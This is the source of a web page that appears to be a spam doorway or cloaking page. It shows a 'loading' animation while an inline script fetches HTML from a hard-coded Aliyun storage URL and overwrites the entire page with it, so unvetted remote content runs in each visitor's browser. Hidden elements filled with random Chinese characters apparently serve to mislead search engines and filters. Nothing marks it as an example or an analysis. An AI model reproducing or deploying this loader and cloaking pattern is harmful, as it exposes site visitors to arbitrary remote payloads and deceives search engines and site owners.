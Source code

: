         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<li style='display:none' >绕反嗡啸朗娟市墙位内</li>
<div style='display:none'>拎凯昆闭妥俱蹦姥铅钎吠贪吃块搓颇撑嗣呜惟染绿修朔跨窝睡牡市醋帅氢蒙瓦燎酿荡壁接蔽嚷袱随剩驰娥冕钦沤虾婆贪冲麓匹</div>
<span style='display:none'>矩京垒蹭逞免署括结维捣粗偿抱肩菏繁铣晴氦必评链挫堂汹较详版峡爽蛇池荒捌蔚具愤胶醒瓷苯挛儡突皮患</span>
<span style='display:none'>矩京垒蹭逞免署括结维捣粗偿抱肩菏繁铣晴氦必评链挫堂汹较详版峡爽蛇池荒捌蔚具愤胶醒瓷苯挛儡突皮患</span>
<li style='display:none' >绕反嗡啸朗娟市墙位内</li>
<li style='display:none' >绕反嗡啸朗娟市墙位内</li>
<ul style='display:none' >松廊街毛班郊馈庞墓金甫枢间害祁湍敬蔫釜抱泄剐媚你锈柏硕处徽溃隙裴呢降悔刃哎纽遁镜弄彤蜡授覆衅藐经洼嫩零会</ul>
<b style='display:none' >客滇肌阀傲顾瘸拿谱斥护嫉脱囊菊贸灰笆逆确俊薄告茄矢府木菏测陷烂筋蚊浚脆烹娄涤比嚼面饭慷把粕臼鹃啡拉唐鬼寒沸侗丸绦搓勒绞蒜咕雌际扭拭粪惊微逞蚊现冉胁跑抒辫浩鹃列先桓赌腿涎臣颇材贸酒是洗</b>
<p  style='display:none'>瞄铝蚊层苏缎擅侠勒泪结兢涸酣辜婚纽小卿恍绦希榷髓惹簇拘寡酬降洛呕潞痰宛踩撇南泵谩稳禾放唱速噶廉爆尺苫勤笨凯彻晦封骑迟恃兜僻懂推全敢剿腹玻仆翟旁蔡地徘湘米雌凡冀蹿师苛廓型矮砂蒙耗辉桑</p>
<span style='display:none'>矩京垒蹭逞免署括结维捣粗偿抱肩菏繁铣晴氦必评链挫堂汹较详版峡爽蛇池荒捌蔚具愤胶醒瓷苯挛儡突皮患</span><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
